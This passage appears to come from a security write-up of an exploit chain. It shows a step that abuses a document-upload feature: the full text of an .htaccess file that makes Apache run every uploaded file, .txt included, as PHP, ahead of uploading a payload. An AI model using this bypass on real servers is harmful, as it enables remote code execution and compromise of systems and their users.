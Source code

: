 <figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### Part 3 (leveraging feature _Add Document_) <a href="#part-3-leveraging-feature-add-document" id="part-3-leveraging-feature-add-document"></a>

The last step is the simplest, and is broken down into two sub-steps. The first is to upload a file in .htaccess format to leverage the Apache directives and allow .txt files to be interpreted by the PHP engine. The second is to upload a .txt file containing our payload.

File: .htaccess

```
<Files *>
  SetHandler application/x-httpd-php
</Files>

# Vroum! Vroum!
# We reactivate PHP engines for all versions in order to be targetless.
<IfModule mod_php.c>
  php_flag engine on
</IfModule>
<IfModule mod_php7.c>
  php_flag engine on
</IfModule>
<IfModule mod_php5.c>
  php_flag engine on
</IfModule>
```
